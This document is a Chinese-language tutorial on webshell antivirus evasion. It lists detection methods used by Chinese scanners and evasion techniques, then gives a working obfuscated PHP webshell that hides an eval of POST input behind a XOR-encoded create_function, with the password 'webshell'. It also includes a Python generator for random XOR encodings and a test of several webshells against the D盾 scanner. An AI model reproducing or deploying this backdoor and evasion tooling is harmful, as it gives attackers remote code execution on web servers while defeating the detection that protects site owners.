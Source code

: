 国内常见查杀软件：

1. D 盾防火墙
2. 百度 WEBDIR+
3. 阿里云 Webshell 检测平台

# 1 理论

## 1.1 识别方式

1. 静态（分析已知类型后门的 hash 值或文件特征）
2. 敏感函数（例如 eval）
3. 敏感调用（例如写一个变量 $a=eval 调用 $a() 即可调用 eval）
4. 污点分析（底层代码分析，较难解决，阿里云擅长）

## 1.2 免杀方式

1. 对敏感函数进行编码（不推荐 base64、异或（随机字符建议使用 16 进制），太常见，在 jsp 中建议用 unicode ）
2. 字符串拼接
3. 加解密
4. 反序列化（在 php 中推荐）

## 1.3 Payload

```php
<?php
class LJEF{
    function __destruct(){
        $TPHV='IUBNRVl{h_t|>DS'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d";
        @$TPHV=$TPHV('',$this->INTA);
        return @$TPHV();
    }
}
$ljef=new LJEF();
@$ljef->INTA=base64_decode("IEBldmFsKCRfUE9TVFt3ZWJzaGVsbF0pOw==");
?>
```

>  `$TPHV` 的内容为异或，结果是 `create_function` ，以执行匿名函数 `INTA` ，避免直接执行 `base64_decode` 时被解密
>
>  `INTA` 的 `base64` 编码可以拆分为多个魔术方法后再拼接到一起，达到更好的免杀效果
>
>  在 `LJEF` 类中没有给 `INTA` 赋值，那么可以在调用 `LJEF` 时对 `INTA` 赋值
>
>  密钥为 `webshell`

## 1.4 异或

```php
$TPHV='IUBNRVl{h_t|>DS'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d"
```

> 对异或函数 `IUBNRVl{h_t|>DS` 解密

函数 `IUBNRVl{h_t|>DS`  是对 `create_function` 进行异或加密得到的函数

```
┌──(root㉿kali-31)-[~]
└─# vim create_function.php
```

```php
<?php
$TPHV='create_function'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d";
echo $TPHV
?>
```

```
┌──(root㉿kali-31)-[~]
└─# php create_function.php
IUBNRVl{h_t|>DS
```

> 异或的加密密钥可以是随机的，但要与 `create_function` 字符长度相同
>
> 加密后的值要避免不可见字符，无法解密 

异或脚本

```
┌──(root㉿kali-31)-[~]
└─# vim xor.py
```

```python
#!/usr/bin/python3
import chardet
import base64
import random
import sys
import zlib

def gen_payload(func):
    func_line1 = ''
    func_line2 = ''
    key = random_keys(len(func))
    for i in range(0,len(func)):
        enc = xor(func[i],key[i])
        func_line1 += key[i]
        func_line2 += enc
    payload = '\'{0}\'^"{1}"'.format(func_line1,func_line2)
    return payload
def random_keys(len):
    str = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))
def xor(c1,c2):
    return hex(ord(c1)^ord(c2)).replace('0x',r"\x")

func1 = sys.argv[1]
print(gen_payload(func1))
```

> 这个脚本中的加密密钥是随机的

使用脚本对 `eval` 函数进行异或加密

```
┌──(root㉿kali-31)-[~]
└─# python xor.py eval
'>!f_'^"\x5b\x57\x7\x33"
```

> 异或由于太常用，已经很难利用

## 1.5 实战

将四个 payload 放入虚拟机，使用 D 盾进行扫描

1. 未加密的一句话木马
2. 加密的一句话木马
3. 简单加密的大马
4. 可绕过安全狗的大马

![将四个 payload 放入虚拟机，使用 D 盾进行扫描](./../../../images/WebShell%20%E7%9A%84%E5%85%8D%E6%9D%80/%E5%B0%86%E5%9B%9B%E4%B8%AA%20payload%20%E6%94%BE%E5%85%A5%E8%99%9A%E6%8B%9F%E6%9C%BA%EF%BC%8C%E4%BD%BF%E7%94%A8%20D%20%E7%9B%BE%E8%BF%9B%E8%A1%8C%E6%89%AB%E6%8F%8F.png)

> 发现识别出了未加密的一句话木马（`shell-没有加密一句话.php`）和简单加密的大马（`webshell大马.php`）